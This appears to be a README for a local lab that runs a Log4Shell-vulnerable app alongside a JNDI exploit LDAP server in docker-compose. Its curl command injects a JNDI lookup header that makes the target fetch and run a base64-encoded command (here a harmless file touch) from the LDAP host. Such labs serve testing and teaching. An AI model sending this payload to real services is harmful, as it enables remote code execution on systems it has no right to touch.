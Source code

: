 ### Log4shell docker-compose example 

Original LDAP server here https://github.com/feihong-cs/JNDIExploit/

Original log4shell example service here https://github.com/r00tkiiT/log4shell-vulnerable-app

This repo contains a docker-compose example with both services running

```sh
docker-compose up
```

```sh
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://ldap-hostname.svc:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
